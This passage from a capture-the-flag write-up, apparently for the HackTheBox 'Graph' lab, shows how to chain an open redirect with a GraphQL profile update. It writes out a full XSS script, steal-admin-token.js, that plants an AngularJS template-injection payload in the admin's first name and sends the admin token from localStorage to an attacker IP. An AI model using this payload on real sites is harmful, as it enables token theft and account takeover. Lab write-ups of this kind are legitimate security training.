 There is another piece of the puzzle in the http://graph.htb/, an open redirect vulnerability:
![](images/image07.png)
We can use this to send the link to the admin in the chat later.

**Chaining all the vulnerabilities:**
The plan is to change the admin "First Name" to the XSS that will send us the adminToken. As we saw previously the syntax to change the profile details requires the user ID, and the user name. 
We can use the code playground at `/graphql` to retrieve the admin ID, in my case "Sally" user.
![](images/image09.png)

Great! Lets construct the attack:
```JavaScript steal-admin-token.js
var request = new XMLHttpRequest();
request.open('POST','http://internal-api.graph.htb/graphql', false);
request.setRequestHeader("Content-Type", "text/plain");
request.withCredentials = true;
request.send(JSON.stringify({operationName: 'update',variables: {firstname: "{%{{$on.constructor('new Image().src=\"http://10.10.14.2/?a=\" + window.localStorage.getItem(\"adminToken\");')()}}%}",lastname: 'null',id: '62abe72aa6d27a07b20d9653',newusername: 'Sally'},query: 'mutation update($newusername: String!, $id: ID!, $firstname: String!, $lastname: String!) {update(newusername: $newusername, id: $id, firstname: $firstname, lastname:$lastname){username,email,id,firstname,lastname,adminToken}}'}));
```
